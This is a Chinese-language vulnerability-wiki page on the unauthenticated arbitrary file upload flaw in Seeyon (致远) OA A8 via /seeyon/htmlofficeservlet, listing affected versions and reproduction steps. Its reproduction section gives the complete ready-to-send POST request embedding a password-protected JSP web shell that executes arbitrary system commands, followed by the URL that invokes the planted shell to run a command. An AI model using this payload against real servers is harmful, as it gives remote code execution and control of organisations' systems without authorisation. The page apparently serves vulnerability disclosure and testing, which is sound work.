# 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 影响版本

<a-checkbox checked>致远A8-V5协同管理软件V6.1sp1</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.1</a-checkbox></br>

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞

![img](/assets/PeiQi-Wiki/img/zhiyuan-1.png)



使用POST请求发出如下请求包

```plain
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![img](/assets/PeiQi-Wiki/img/zhiyuan-2.png)



出现如图响应则为上传成功,访问 

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![img](/assets/PeiQi-Wiki/img/zhiyuan-3.png)